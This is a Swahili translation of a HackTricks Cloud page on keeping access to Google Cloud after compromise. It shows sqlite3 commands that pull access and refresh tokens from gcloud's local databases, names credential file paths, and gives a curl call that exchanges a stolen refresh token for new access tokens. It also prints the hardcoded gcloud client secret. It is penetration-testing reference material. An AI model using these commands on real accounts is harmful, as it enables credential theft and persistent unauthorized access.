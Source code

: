 # GCP - Kudumu bila Huduma

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

Hizi ni mbinu muhimu mara moja, kwa namna fulani, umefanikiwa kudukua baadhi ya siri za GCP au mashine inayotumika katika mazingira ya GCP.

## Udukuzi wa Kitufe

### Vitufe vya Mtumiaji Aliyethibitishwa

Ili kupata **kitufe cha sasa** cha mtumiaji unaweza kukimbia:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Angalia ukurasa huu jinsi ya **kutumia moja kwa moja token huu kwa kutumia gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Ili kupata maelezo ya **kuunda token mpya la ufikiaji** endesha:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Pia niwezekana kupata vitufe vya kuboresha katika **`$HOME/.config/gcloud/application_default_credentials.json`** na katika **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Ili kupata kitufe cha upatikanaji kilichoboreshwa kipya na **kitufe cha kuboresha**, kitambulisho cha mteja, na siri ya mteja endesha:
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Uhalali wa vibambo vya kuboresha unaweza kusimamiwa katika **Admin** > **Usalama** > **Kudhibiti kikao cha Google Cloud**, na kwa chaguo-msingi umewekwa kuwa saa 16 ingawa unaweza kuweka isiisha kamwe:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Mzunguko wa Uthibitisho

Mzunguko wa uthibitisho unapotumia kitu kama `gcloud auth login` utafungua dirisha la ombi kwenye kivinjari na baada ya kukubali mizani zote kivinjari kitatuma ombi kama hili kwenye bandari ya http iliyofunguliwa na chombo:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Kisha, gcloud itatumia hali na nambari na baadhi ya `client_id` (`32555940559.apps.googleusercontent.com`) iliyowekwa kwa nguvu na **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) kupata **data ya mwisho ya token ya kuboresha**.

{% hint style="danger" %}
Tafadhali elewa kuwa mawasiliano na localhost ni kwa HTTP, hivyo ni rahisi kuingilia data ili kupata token ya kuboresha, hata hivyo data hii ni halali mara moja tu, hivyo itakuwa bure, ni rahisi kusoma token ya kuboresha kutoka kwenye faili.
{% endhint %}

### Akaunti za Huduma

Kama ilivyo kwa watumiaji waliothibitishwa, ikiwa utafanikiwa **kuharibu faili ya ufunguo binafsi** wa akaunti ya huduma utaweza **kuiweka kawaida kwa muda mrefu**.\
Hata hivyo, ikiwa unajiokota **tokeni ya OAuth** ya akaunti ya huduma hii inaweza kuwa ya kuvutia zaidi, kwa sababu, hata kama kwa chaguo-msingi tokeni hizi ni muhimu kwa saa moja tu, ikiwa **mwendeshaji anafuta ufunguo wa API binafsi, tokeni ya OAuth itaendelea kuwa halali hadi itakapomalizika**.

### Metadata

Kwa wazi, muda mrefu ukiwa ndani ya mashine inayofanya kazi katika mazingira ya GCP utaweza **kupata akaunti ya huduma iliyowekwa kwenye mashine hiyo kwa kuwasiliana na mwisho wa metadata** (tambua kuwa tokeni za Oauth unazoweza kupata kwenye mwisho huu kawaida zinazuiliwa na scopes).

### Upatanisho

Baadhi ya upatanisho kwa njia hizi zinaelezewa katika [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Marejeo

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka mwanzo hadi kuwa shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
